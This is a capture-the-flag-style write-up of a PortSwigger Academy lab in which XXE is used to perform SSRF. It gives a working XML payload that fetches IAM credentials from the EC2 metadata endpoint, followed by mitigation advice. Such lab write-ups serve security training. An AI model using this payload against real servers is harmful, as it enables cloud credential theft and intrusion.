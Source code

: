 # 🛡️ Lab: Exploiting XXE to Perform SSRF

**Lab URL:** [PortSwigger Web Security Academy](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)  
**Category:** XML External Entity (XXE)  
**Difficulty:** 🟦 Apprentice  
**Lab Goal:** Use an XXE vulnerability to perform a server-side request forgery (SSRF) and retrieve the EC2 IAM secret access key from the metadata service.

## ⚙️ Steps to Reproduce

1. Visit any product page and click the **"Check stock"** button.
2. Intercept the **POST request** using **Burp Suite**.
3. Modify the XML to inject an external entity definition targeting the EC2 metadata endpoint.

## 🔧 Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

> Insert the DOCTYPE just before the `<stockCheck>` tag.

## ✅ Expected Result

- The server reads the entity value from the internal endpoint.
- You should see IAM credentials such as:
  - `AccessKeyId`
  - `SecretAccessKey`
  - `Token`


##  Key Takeaway

This lab demonstrates how a simple XXE flaw can lead to SSRF, allowing attackers to access internal-only resources such as cloud metadata services, leading to cloud credential theft.


## Mitigation

- Disable DTD processing in your XML parsers.
- Use safe data formats like JSON when possible.
- Always validate and sanitize user input.

##  Author

`vgod-sec`  
🔗 GitHub: [https://github.com/vgod-sec](https://github.com/vgod-sec)
